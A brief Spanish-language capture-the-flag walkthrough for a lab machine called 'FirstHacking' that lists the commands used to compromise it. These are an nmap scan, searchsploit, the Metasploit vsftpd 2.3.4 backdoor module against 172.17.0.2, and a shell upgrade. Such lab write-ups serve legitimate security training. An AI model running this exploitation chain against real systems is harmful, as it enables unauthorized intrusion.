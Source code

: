 Maquina: FirstHacking
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv 

searchsploit vsftpd 2.3.4  
msfconsole -q  
search vsftpd 2.3.4 
use 0
show options
set rhost 172.17.0.2
run

script /dev/null -c bash
whoami
